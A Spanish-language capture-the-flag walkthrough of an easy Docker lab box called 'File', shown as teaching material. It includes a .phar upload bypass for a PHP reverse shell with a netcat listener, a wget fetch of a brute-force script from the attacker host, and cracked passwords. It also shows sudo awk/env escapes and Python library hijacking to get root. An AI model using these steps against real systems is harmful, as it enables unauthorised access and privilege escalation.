# Máquina: File

**Dificultad:** Fácil


---

# ⚙️ Despliegue de la máquina

Comenzamos descomprimiendo el archivo entregado y desplegando el contenedor Docker utilizando el script proporcionado.

```bash
unzip apibase.zip
sudo bash auto_deploy.sh file.tar
```



Una vez finalizado el despliegue, la máquina vulnerable quedará disponible dentro de la red interna de Docker.

---

# 📡 Verificación de conectividad

Antes de iniciar la enumeración comprobamos que la máquina objetivo responde correctamente.

```bash
ping -c1 172.17.0.3
```



La respuesta ICMP confirma conectividad con el objetivo.

---

# 🔍 Enumeración de puertos

Realizamos un escaneo completo de puertos TCP.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3
```

### Explicación de parámetros utilizados:

| Parámetro         | Función                             |
| ----------------- | ----------------------------------- |
| `-p-`             | Escanea los 65535 puertos           |
| `--open`          | Muestra únicamente puertos abiertos |
| `-sS`             | SYN Scan (stealth scan)             |
| `--min-rate 5000` | Aumenta velocidad del escaneo       |
| `-Pn`             | Omite descubrimiento ICMP           |
| `-n`              | Evita resolución DNS                |
| `-vvv`            | Mayor verbosidad                    |

Puertos encontrados:

* **21/tcp → FTP**
* **80/tcp → HTTP**



Procedemos a identificar versiones y servicios.

```bash
nmap -sCV -p21,80 172.17.0.3
```

Donde:

* `-sC` → scripts NSE por defecto
* `-sV` → detección de versiones



---

# FTP - Acceso Anonymous

Durante la enumeración observamos que FTP permite autenticación anónima.

Accedemos:

```bash
ftp anonymous@172.17.0.3
```

> Nota: anteriormente se usó 172.17.0.2, pero la IP correcta del objetivo debe mantenerse consistente.



Listamos archivos y encontramos:

```text
anon.txt
```

Lo descargamos:

```bash
get anon.txt
```

Al inspeccionarlo encontramos un hash MD5.



Procedemos a crackearlo:

```bash
john --format=Raw-MD5 anon.txt
```

Esto nos proporciona credenciales potencialmente reutilizables.

---

# Enumeración Web

Accedemos al puerto HTTP:

```bash
http://172.17.0.3
```

Encontramos únicamente la página por defecto de Debian.



Esto sugiere que debemos buscar contenido oculto.

---

# Fuzzing de directorios

Utilizamos Gobuster:

```bash
gobuster dir -u http://172.17.0.3 \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-x .env,.php,.bak,.old,.zip,.txt \
-b 403,404 \
--exclude-length 301
```

Explicación:

* extensiones adicionales
* exclusión de falsos positivos
* búsqueda de archivos sensibles

Resultado:



Directorios encontrados:

```text
/uploads/
/file_upload.php
```

---

# Identificación del vector de ataque

Encontramos:

## `/file_upload.php`

Parece ser un panel de subida de archivos.

## `/uploads/`

Directorio accesible públicamente.

Esto sugiere:

1. Subir archivo malicioso
2. Acceder al archivo
3. Ejecutarlo

---

# Obtención de Reverse Shell

Utilizamos una reverse shell PHP.

Repositorio utilizado:

```text
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Se modifican:

```php
$ip = "TU_IP";
$port = PUERTO;
```

Intentamos subir:

```text
shell.php
```

El sistema lo bloquea.

Probamos:

```text
shell.phar
```

y ahora es aceptado.

## ¿Por qué funcionó?

Muchos filtros inseguros realizan validaciones simples:

```php
if($extension == "php")
```

Pero:

```text
.phar
```

también es interpretado por PHP cuando el servidor está configurado para procesarlo.

Por ello:

* evade blacklist simples
* sigue siendo ejecutable
* bypass común en upload filters débiles



---

# Preparando Listener

En máquina atacante:

```bash
sudo nc -lvnp 445
```

Accedemos al archivo subido desde:

```text
/uploads/
```

Ejecutándolo obtenemos shell.



Confirmamos acceso:



---

# Tratamiento de TTY

Para estabilizar la terminal:

```bash
script /dev/null -c bash
```

Suspender:

```bash
CTRL + Z
```

Continuar:

```bash
stty raw -echo; fg
```

Restablecer:

```bash
reset xterm
```

Variables:

```bash
export TERM=xterm
export SHELL=bash
```

---

# Preparación para fuerza bruta interna

Descargamos herramienta:

```text
https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh
```

Levantamos servidor:

```bash
sudo python3 -m http.server 80
```



Descargamos desde víctima:

```bash
wget http://172.17.0.1/archivo -O salida
```

Nos ubicamos:

```bash
/var/www/html
```



---

# Obtención de credenciales

Usuario:

```text
fernando
```

```bash
./attack.sh fernando rockyou.txt
```

Contraseña:

```text
chocolate
```

Usuario:

```text
mario
```

```bash
./attack.sh mario rockyou.txt
```

Contraseña:

```text
password123
```



---

# Escalada de privilegios

## mario → julen

Enumeramos:

```bash
sudo -l
```

Resultado:

```text
(julen) NOPASSWD: /usr/bin/awk
```

Abusamos de awk:

```bash
sudo -u julen /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

¿Por qué?

`awk` permite:

```awk
system()
```

ejecutando comandos arbitrarios.

---

## julen → iker

Nuevamente:

```bash
sudo -l
```

Resultado:

```text
(iker) NOPASSWD: /usr/bin/env
```

Escalamos:

```bash
sudo -u iker /usr/bin/env /bin/bash
```

`env` hereda privilegios y ejecuta bash.

---

## iker → root

Privilegios:

```text
(ALL) NOPASSWD:
/usr/bin/python3 /home/iker/geo_ip.py
```

Leemos:

```bash
cat /home/iker/geo_ip.py
```

Contenido:

```python
import requests

ip=input()

respuesta=requests.get()

print()
```

No podemos editar:

```bash
-rw-r--r--
root root
```

Aplicamos:

# Python Library Hijacking

Creamos:

```bash
cd /home/iker

echo 'import os; os.system("/bin/bash")' > requests.py
```

Ejecutamos:

```bash
sudo /usr/bin/python3 /home/iker/geo_ip.py
```

Python importará:

```text
/home/iker/requests.py
```

antes que la librería legítima.

Obtenemos:

```bash
whoami
```

Resultado:

```text
root
```



---

# Cadena completa de explotación

```text
FTP Anonymous
      ↓
Hash MD5
      ↓
Enumeración Web
      ↓
Upload Bypass (.phar)
      ↓
Reverse Shell
      ↓
Credenciales internas
      ↓
mario
      ↓
awk
      ↓
julen
      ↓
env
      ↓
iker
      ↓
Python Library Hijacking
      ↓
root
```
